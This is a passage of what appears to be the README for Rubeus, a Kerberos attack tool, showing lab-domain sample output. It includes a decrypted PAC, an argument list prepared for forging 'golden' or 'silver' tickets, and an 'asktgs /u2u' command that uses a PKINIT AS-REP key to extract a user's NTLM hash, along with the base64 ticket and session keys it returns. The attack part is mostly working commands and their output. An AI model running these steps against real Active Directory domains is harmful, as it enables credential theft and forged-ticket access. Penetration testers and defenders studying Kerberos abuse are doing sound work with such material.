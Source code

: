           ResourceGroupCount   : 0
        CredentialInfo         :
          Version              : 0
          EncryptionType       : rc4_hmac
          CredentialData    :   *** NO KEY ***
        ClientName             :
          Client Id            : 19/07/2021 23:57:46
          Client Name          : harmj0y
        UpnDns                 :
          DNS Domain Name      : RUBEUS.GHOSTPACK.LOCAL
          UPN                  : harmj0y@rubeus.ghostpack.local
          Flags                : 0
        ServerChecksum         :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : 96FA020562EE73B38D31AEEF (VALID)
        KDCChecksum            :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : E7FDCBAF5F580DFB567DF102 (UNVALIDATED)


    [*] Printing argument list for use with Rubeus' 'golden' or 'silver' commands:

    /user:harmj0y /id:1106 /pgid:513 /logoncount:8 /badpwdcount:0 /sid:S-1-5-21-3237111427-1607930709-3979055039 /netbios:RUBEUS /displayname:"Harm J0y" /groups:513 /sids:S-1-18-1 /pwdlastset:"14/07/2021 02:07:12" /minpassage:1d /dc:PDC1.RUBEUS.GHOSTPACK.LOCAL /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD

Using PKINIT to request a TGT and then requesting a user-to-user service ticket to gain access to the NTLM hash stored within the PAC (manually performing the `/getcredentials` flag to **asktgt**):

    C:\Rubeus>Rubeus.exe asktgs /u2u /asrepkey:CC9D16AB01D1BD0EF9EBD53C8AD536D9 /ticket:doIF9DCCBfCgAwIBBaED...(snip)...ay5sb2NhbA== /tgs:doIF9DCCBfCgAwIBBaED...(snip)...ay5sb2NhbA==

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building User-to-User TGS-REQ request for: 'harmj0y'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIFxTCCBcGgAwIBBaEDAgEWooIE1DCCBNBhggTMMIIEyKADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          RVVTLkdIT1NUUEFDSy5MT0NBTKkUMBKgAwIBAaELMAkbB2hhcm1qMHk=

      ServiceName              :  harmj0y
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  19/07/2021 23:01:05
      EndTime                  :  20/07/2021 09:00:38
      RenewTill                :  26/07/2021 23:00:38
      Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
      KeyType                  :  rc4_hmac
      Base64(key)              :  Qm9zdwFIINSHAAmqaviuEw==
      ASREP (key)              :  CC9D16AB01D1BD0EF9EBD53C8AD536D9
      Decrypted PAC            :
        LogonInfo              :